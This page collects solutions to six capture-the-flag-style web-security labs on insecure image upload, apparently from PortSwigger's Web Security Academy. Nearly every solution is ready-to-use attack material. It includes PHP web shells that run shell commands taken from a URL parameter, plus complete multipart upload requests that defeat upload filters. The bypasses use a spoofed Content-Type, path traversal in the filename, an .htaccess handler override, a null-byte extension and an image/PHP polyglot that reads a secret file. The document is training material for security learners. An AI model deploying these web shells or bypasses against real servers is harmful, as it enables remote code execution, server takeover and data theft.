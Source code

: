 ## Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Solution:

Just upload a php file with content like
<?php echo system($_GET['command']); ?>

Then access the shell like
/files/avatars/exploit.php?command=ls%20-la%20/home/carlos
```

## Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Solution:

Change the request body to something like this

------WebKitFormBoundaryKlWAOSnhbB7lU8mg
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryKlWAOSnhbB7lU8mg
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryKlWAOSnhbB7lU8mg
Content-Disposition: form-data; name="csrf"

bQY1tNXb6Zdb5MWH4pBiBCEO9CZXqryq
------WebKitFormBoundaryKlWAOSnhbB7lU8mg--
```

## Lab: Web shell upload via path traversal

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Solution

Upload with path traversal in file name


------WebKitFormBoundaryvAWEtalFLSoqGZtp
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryvAWEtalFLSoqGZtp
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryvAWEtalFLSoqGZtp
Content-Disposition: form-data; name="csrf"

y1e7Z0qUuVGBxHXdLHtcIfB6QVlgz1tm
------WebKitFormBoundaryvAWEtalFLSoqGZtp--

```

## Lab: Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Solution:

First, upload an .htaccess file


------WebKitFormBoundary3P9ZpLwFLOopnett
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: application/octet-stream

AddHandler application/x-httpd-php .jpg
------WebKitFormBoundary3P9ZpLwFLOopnett
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary3P9ZpLwFLOopnett
Content-Disposition: form-data; name="csrf"

vSr8sQW7vNY87nT9pgX7UQsJV3BtHqKC
------WebKitFormBoundary3P9ZpLwFLOopnett--


Then upload and file with the extension defined in .htaccess files uploaded

------WebKitFormBoundaryfbJZpsCq2AlUSOmT
Content-Disposition: form-data; name="avatar"; filename="get_shell.jpg"
Content-Type: application/octet-stream

<?php
// Get the command from the GET parameter
$command = $_GET['command'];

// Execute the command
$output = shell_exec($command);

// Output the result
echo "<pre>$output</pre>";
?>
------WebKitFormBoundaryfbJZpsCq2AlUSOmT
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryfbJZpsCq2AlUSOmT
Content-Disposition: form-data; name="csrf"

vSr8sQW7vNY87nT9pgX7UQsJV3BtHqKC
------WebKitFormBoundaryfbJZpsCq2AlUSOmT--
```

## Lab: Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Upload a php file with filename like below


------WebKitFormBoundaryQlFp9f0x9kBK3TgA
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
Content-Type: application/php

<?php
// Get the command from the GET parameter
$command = $_GET['command'];

// Execute the command
$output = shell_exec($command);

// Output the result
echo "<pre>$output</pre>";
?>
------WebKitFormBoundaryQlFp9f0x9kBK3TgA
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryQlFp9f0x9kBK3TgA
Content-Disposition: form-data; name="csrf"

O4172gmebHWewZ4sMvYioGxIH5gPrsdR
------WebKitFormBoundaryQlFp9f0x9kBK3TgA--
```

## Lab: Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

```plaintext
Just upload an real image with file extension .php

Then send to Repeater and add a line after the end of file content
<?php echo file_get_contents('/home/carlos/secret'); ?>

Like


------WebKitFormBoundaryvcOVjQrCt9ACxgZ1
Content-Disposition: form-data; name="avatar"; filename="shiba.php"
Content-Type: image/jpeg

ÿØÿà
.....<striped>........

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryvcOVjQrCt9ACxgZ1
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryvcOVjQrCt9ACxgZ1
Content-Disposition: form-data; name="csrf"

kUYAxjE0la0ktGV12o31QQF6qb6OdyCv
------WebKitFormBoundaryvcOVjQrCt9ACxgZ1--

```

